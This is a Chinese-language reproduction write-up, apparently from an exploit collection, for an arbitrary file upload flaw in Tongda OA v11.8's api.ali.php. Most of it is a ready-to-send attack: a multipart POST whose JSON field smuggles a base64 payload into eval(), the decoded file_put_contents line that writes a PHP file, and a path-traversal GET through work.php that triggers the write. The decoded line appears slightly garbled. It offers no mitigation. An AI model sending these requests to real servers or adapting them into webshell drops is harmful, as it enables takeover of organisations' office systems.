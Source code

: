 # 通达OA v11.8 api.ali.php 任意文件上传漏洞

## 漏洞描述

通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏可以上传恶意文件控制服务器

## 漏洞影响

```
通达OA v11.8
```

## 漏洞复现

登陆页面

![image-20220520154337067](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201543147.png)

向 api.ali.php 发送请求包

```
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

参数a base解码

```
ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==file_put_contents('../../fb6790f4.php','');
```

![image-20220520154357492](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201543536.png)

再发送GET请求写入文件，页面返回`+OK`

```
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

其中请求中对 2109 为 年月,路径为 `/fb6790f4.php,`

![image-20220520154429920](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201544984.png)